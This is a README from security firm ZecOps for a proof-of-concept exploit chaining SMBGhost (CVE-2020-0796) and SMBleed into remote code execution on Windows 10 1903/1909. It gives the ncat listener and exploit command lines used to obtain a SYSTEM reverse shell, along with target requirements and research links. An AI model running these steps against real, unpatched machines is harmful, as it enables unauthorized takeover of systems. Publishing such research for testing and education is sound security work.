

# CVE-2020-0796 Remote Code Execution POC

(c) 2020 ZecOps, Inc. - https://www.zecops.com - Find Attackers' Mistakes  
Remote Code Execution POC for CVE-2020-0796 / "SMBGhost"  
Expected outcome: Reverse shell with system access.  
Intended only for educational and testing in corporate environments.  
ZecOps takes no responsibility for the code, use at your own risk.  
Please contact sales@ZecOps.com if you are interested in agent-less DFIR tools for Servers, Endpoints, and Mobile Devices to detect SMBGhost and other types of attacks automatically.

## Usage

* Make sure **Python** and **ncat** are installed.

* Run `calc_target_offsets.bat` on the target computer, and adjust the offsets at the top of the `SMBleedingGhost.py` file according to the script output (also see the note below).

* Run **ncat** with the following command line arguments:

  `ncat -lvp <port>`

  Where `<port>` is the port number **ncat** will be listening on.

* Run `SMBleedingGhost.py` with the following command line arguments:

  `SMBleedingGhost.py <target_ip> <reverse_shell_ip> <reverse_shell_port>`

  Where `<target_ip>` is the IP address of the target, vulnerable computer. `<reverse_shell_ip>` and `<reverse_shell_port>` are the IP address and the port number **ncat** is listening on.

* If all goes well, **ncat** will display a shell that provides system access to the target computer.

**Note:** You might be wondering why it's necessary to run the `calc_target_offsets.bat` script on the target computer, and doesn't it defeat the whole point of the remote code execution being remote. These offsets are not random, and are the same on all Windows instances of the same Windows version. One could make the attack more universal by detecting the target Windows version and adjusting the offsets automatically, or by not relying on them altogether, but it's only a POC and we did what was simpler. We also see it as a good thing that the POC is not universal, and is not convenient for uses other than testing and education.

## Target Environment

Windows 10 Versions 1903 and 1909 are affected. Unpatched Windows 10 1903 versions aren't supported due to a null dereference bug in Windows (fixed in KB4512941).

Due to the nature of the exploitation, the POC works best for targets running on a computer (or a VM) with a single logical processor. Targets with more than one logical processor running in VirtualBox should be supported as well, but the POC is less reliable in this case. Other targets might not be supported. For details, refer to our technical writeup below.

## Technical Writeup

* [SMBleedingGhost Writeup Part I: Chaining SMBleed (CVE-2020-1206) with SMBGhost](https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-chaining-smbleed-cve-2020-1206-with-smbghost/)
* [SMBleedingGhost Writeup Part II: Unauthenticated Memory Read – Preparing the Ground for an RCE](https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-part-ii-unauthenticated-memory-read-preparing-the-ground-for-an-rce/)
* [SMBleedingGhost Writeup Part III: From Remote Read (SMBleed) to RCE](https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-part-iii-from-remote-read-smbleed-to-rce/)

## References

* [Vulnerability Reproduction: CVE-2020-0796 POC - ZecOps Blog](https://blog.zecops.com/vulnerabilities/vulnerability-reproduction-cve-2020-0796-poc/)
* [CVE-2020-0796 - Microsoft Security Response Center](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0796)
* [CVE-2020-1206 - Microsoft Security Response Center](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-1206)
